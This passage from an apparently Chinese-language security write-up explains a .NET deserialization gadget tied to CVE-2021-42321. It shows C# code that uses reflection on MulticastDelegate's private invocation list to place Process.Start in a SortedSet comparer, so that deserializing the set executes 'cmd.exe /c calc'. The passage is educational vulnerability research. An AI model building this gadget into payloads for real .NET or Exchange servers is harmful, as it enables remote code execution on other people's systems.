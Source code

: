 回顾之前所有的分析，比较函数签名为 `int function(string x, string y)` ，如果这个函数可控，有一个签名非常相似的函数 `Process.Start`，如果可以比较函数设置为他，那么在第二次Add的时候便可以调用实现一次命令执行，但是这里存在一个问题，那就是这个函数返回值为 `Process` ，与比较函数的签名返回类型 `int` 不匹配，直接赋值会导致异常，所以这里需要使用到多播委托 `MulticastDelegate`

而在官方文档中已经指出，其实程序中使用 `deletegate` 做声明的委托，就是派生自 `MulticastDelegate`

![900](/img/cve-2021-42321-learn-dotnet-deserialize-gadgets/Pasted%20image%2020230505152809.png)

多播委托其实就是将多个委托合并起来成为一个列表，然后将他作为一个新的委托进行返回，跟入到委托合并，也就是 `Delegate.Combine`

![600](/img/cve-2021-42321-learn-dotnet-deserialize-gadgets/Pasted%20image%2020230505152821.png)

因为继承自 `MulticastDelegate` ，所以最终实现其实在 `MulticastDelegate.CombineImpl`，这个函数非常长，所以只需要知道他最终返回的是一个新的委托，并且合并中的关键点

![700](/img/cve-2021-42321-learn-dotnet-deserialize-gadgets/Pasted%20image%2020230505152839.png)

这其中有两个变量

-   `_invocationList`
    -   按顺序存放了将要执行的委托列表，私有变量，无法直接赋值
-   `_invocationCount`
    -   委托列表的数量

虽然多播委托提供了一个可供调用的公开函数用来合并两个委托，但是仍然需要保证两个委托返回类型相同，但是这里可以发现一件事，其实在合并的时候，委托列表将会被转换为 `object[]` 用来保证两个委托合并的正常进行，那么可以考虑在构造的时候，使用反射直接修改这个值，强行插入一条 `Process.Start` ，由于这里需要一条委托，而 `Process.Start` 是一个函数，那么可以考虑使用 `Func` 构造一个接受两个 `string` 参数，返回类型为 `Process` 的泛型委托

```csharp
Func<string, string, Process>(Process.Start)
```

构造方法

```csharp
MulticastDelegate d1 = new Comparison<string>(String.Compare);
MulticastDelegate d2 = new Func<string, string, Process>(Process.Start);

Comparison<string> c = (Comparison<string>)MulticastDelegate.Combine(d1, d1);
IComparer<string> comparer = Comparer<string>.Create(c);
SortedSet<string> s = new SortedSet<string>(comparer);
s.Add("cmd.exe");
s.Add("/c calc");

FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] dList = new object[d1.GetInvocationList().Length + 1];
d1.GetInvocationList().CopyTo(dList, 0);
dList[dList.Length - 1] = d2;
fi.SetValue(c, dList);
```

![1000](/img/cve-2021-42321-learn-dotnet-deserialize-gadgets/Pasted%20image%2020230505152901.png)

将 `SortedSet<string> s` 进行序列化后便可以得到一条用来弹出计算器的payload，如果对这个值进行反序列化，将会触发 `Process.Start` 并且执行 `cmd.exe /c calc`